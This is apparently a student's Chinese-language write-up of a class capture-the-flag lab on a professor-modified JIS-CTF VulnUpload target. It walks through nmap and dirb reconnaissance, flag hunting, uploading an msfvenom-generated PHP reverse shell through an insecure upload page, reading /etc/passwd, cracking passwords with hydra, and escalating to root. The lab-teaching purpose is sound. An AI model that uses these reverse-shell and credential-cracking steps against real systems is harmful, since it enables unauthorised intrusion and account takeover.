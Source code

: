 

### 攻擊主機：Kali_Linux_2019.3 
### 靶機：JIS-CTF-VulnUpload-CTF01
> 這個靶機跟網路上的不太一樣，因為教授改過內容才給我們打。</br>
> ※教授說他忘了放第五支旗

#### 搜尋靶機IP
> **Kali>** <code>arp-scan -l</code> </br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/e53f9a10-cfff-4cc6-8ea3-7891432dcc6c)</br>
💡：去掉頭跟尾(IP)，確定靶機為 192.168.203.129


#### 弱點掃描
> 使用nmap進行弱掃
**Kali>** <code>nmap -v -sS -O -A -p- 192.168.203.129</code> </br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/6ced9f28-af7e-4be8-bbe9-12c976a83bc6)</br>
💡得知有開啟22port和80port

#### 先看看http://192.168.203.129
> 意外發現第四支旗
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/1b4aea6e-8720-47a5-a6ab-4ba0bb10bb08) <br/>
> (在Inspect Element中)<br/>
> 解碼之後：<br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/90dd9069-88ed-4e84-bb42-b2909b14955f)<br/>
```js
    There is a vuln of upload service on the next page after you log in. Please find the php-reverse-shell.php under /usr/share/webshells/php in kali linux. In order to get the reverse session from target, run nc -lvnp port#. Edit the "CHANGE THIS" in the  php-reverse-shell.php and then upload it :10 points
```
> 這個線索告訴我接下來要用反向工程，但我先把1~3支旗找回來<br/>

#### 使用dirb嘗試看看<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/378d385b-8ddc-4073-9f80-a24841b581d4)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/954f81f4-387a-4f15-aa83-fdcdeba341ba)<br/>
> 在 http://192.168.203.129/flag 找到第一支旗<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/3029e6e9-a3a2-4390-91ad-1f08fa929ecd)<br/>
```js
    This is a Jimmy's Cyber Class:10 points
```
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/dd47bca4-4bc2-4d34-963a-36900ca3a86b)<br/>
> 並在admin_area中找到第二支旗，還附了admin的帳密<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/b017c504-588b-4e7c-ae12-8f6d97677872)<br/>
```js
    You might have great time in this security class:10 points
```
> 在CSS中找到hint檔案，找到第三支旗<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/eaed5634-4316-43a6-9f16-86afdf364032)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/e5449597-ff8a-4b4e-a411-86f6ff4b8ead)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/3577cf9d-dbc5-4caa-87d0-714a526f7033) <br/>
```js
    Of course you know password crack is illegal:10 points
``` 

#### 進入靶機<br/>
> 使用第二支旗給的帳密<br/>
> 在 http://192.168.203.129/login.php (第四支旗的網頁)進入了可以上傳資料的網頁<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/0c9b6c6b-30d9-4b56-a8dc-dd2da4c0fc21)<br/>
> **使用反向工程**<br/>
> 在我好找的地方養一隻可愛的彩虹小馬<br/>
> <code>msfvenom -p php/reverse_php LHOST=192.168.203.129 LPORT=1234 -f raw > shell.php</code><br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/acba887e-1c5f-4741-a252-9417579f4156)<br/>
> 把他上傳<br/>
> 在掃80port的時候注意到有個upload_files，感覺可以讓靶機開我的檔案<br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/9beecb0f-a4a7-484b-a481-dad0820cdc88)<br/>
> 在upload_files開啟我的檔案，成功進入靶機<br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/1c487e45-5815-4a4c-9833-749ba16edfea)<br/>
> 我這時候只有www-data的權限，做不了甚麼但可以查看使用者<br/>
> <code>Cat /etc/passwd</code><br/>
> 有兩個使用者，Jimmy和technawi可以做密碼破解-->使用hydra<br/>
> 發現Jimmy比較容易破出來<br/>
> 使用Jimmy進行登入<br/>
> 發現bash無法下sudo，故先下bash指令<br/>
> **$** <code>su jimmy</code><br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/022276e4-2ed8-40bd-96b1-0c7f8bdf3df3) <br/>
> 成功變成能下sudo的bash
#### 提權成root
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/5589079d-8bfc-476d-8866-874dfbcf173b) </br>
> 成功😄

#### 找漏網之旗
> 在Home資料夾下看到了technawi和.jimmy兩個使用者資料夾</br>
> 在technawi中看到了Jun 5建立(教授放檔案進去的日期，看到這個日期都很可疑)的檔案有flag.txt和.credentials.txt</br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/c6272d81-d77c-4d3e-bb62-bb1445a703e3)</br>
> 得到第六支旗和第七支旗</br>
```js
    Great! But you need to find other account to execute sudo:15 points
[jimmy] is the account you need to hydra:15 points
``` 

> 在.jimmy中看到了Jun 5建立(教授放檔案進去的日期，看到這個日期都很可疑)的檔案有jimmy.txt</br>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/5c5a9bf1-518a-4ad8-b9b3-d98345ac2c96)</br>
> 得到了第八支旗</br>
```js
   As what we always said: Please protect yourself with these hacking skill:20 points
``` 

> 到root下看看有什麼</br>
> 在Desktop找到了Jun 5建立(教授放檔案進去的日期，看到這個日期都很可疑)的檔案有finish.txt和youseeme.jpg兩個檔案</br>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/7606dc42-08ec-434c-895b-7a522ab874f4)</br>
> 在finish.txt得到第九支旗</br>
```js
    Good JOB! You finished this CTF! Please protect yourself with these hacking skill:20 points
```

![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/896bd863-2f96-4fda-beb7-ba12e9d5f3d7)</br>
> 在youseeme.jpg得到第十支旗</br>
```js
    Look forward to seeing you again, and hope what I shared can help you ^_^ :20 points
```

#### ※補充：教授提供第十支旗的正確解法
> hexdump -C youseeme.jpg |more</br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/d5292577-920b-4e04-a0ae-e6a3e34a1cc6)
</br>







